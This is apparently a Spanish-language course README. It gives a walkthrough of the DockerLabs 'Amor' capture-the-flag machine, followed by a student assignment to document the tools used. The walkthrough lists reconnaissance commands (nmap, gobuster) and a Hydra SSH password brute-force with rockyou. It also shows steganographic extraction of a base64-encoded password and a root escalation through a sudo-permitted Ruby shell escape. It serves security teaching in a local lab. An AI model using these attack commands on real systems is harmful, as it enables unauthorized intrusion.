







## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*


Una vez descargada deberemos copiar el contenido hacia kali.


```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

**Descomprimir el recurso:**

En nuestro caso se trata de la carpeta que se traslado por SCP desde ya descomprimida, en caso de que se descargue directamente en Kali proceder a descomprirla. 

```bash
unzip nombre_maquina.zip
```

Esto generará una  carpeta  con archivos: un script que es el autodespliegue de la máquina «auto_deploy.sh» y el archivo de la máquina en.tar «ejemplo.tar».

Y por último para desplegar la máquina, basta con ejecutar el script:


```bash
└─# ./auto_deploy.sh amor.tar 
```




## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:



```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```




Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```



La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)


## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```


Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```



La imagen descargada es la siguiente:


## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:



```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```


# Taller Individual.

**NOTA IMPORTANTE: Realizar la actividad dentro de un README.md**

**Instrucciones:**

- Para esta actividad individual, deberán realizar el trabajo dentro de la subcarpeta ENTREGAS que se encuentra en la sesión actual; dentro de el README.md de la sesión.

- La entrega final deberá cargarse en un nuevo directorio dentro de la carpeta **ENTREGAS**, el cual tendrá el formato ApellidoNombre (ejemplo: PerezJuan). Este directorio deberá ser creado por cada estudiante en el repositorio de GitHub asignado, para lo cual se les otorgarán los permisos de colaboradores necesarios.

**Métrica Clave: Profundidad y Calidad de las Respuestas**

La evaluación de esta actividad se centrará en la profundidad y calidad de sus respuestas. Esto implica lo siguiente:

- Definición y Explicación Detallada: Para cada comando y herramienta empleada, deben proporcionar una definición clara y una explicación exhaustiva de su propósito y funcionamiento.

Ejemplos Prácticos: Incluyan ejemplos concretos y funcionales que ilustren el uso de cada comando o herramienta.

- Variantes y Banderas (Flags): Describan las principales variantes y las banderas (opciones o argumentos) más relevantes de cada comando, explicando su función y cómo modifican el comportamiento del comando.

**Casos de Uso Reales:** Mencionar escenarios o casos de uso comunes donde estas herramientas y comandos son particularmente útiles.

**Asegúrense de que su documentación sea clara, organizada y fácil de entender.**

**NOTA: Incluir imágenes y fuentes en su documentación.**


**Puntos a desarrollar**

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleaas, este punto amplia el ejercicio anterior.
   
4. Realice un diagrama de flujo de todo el procedimiento realizado.

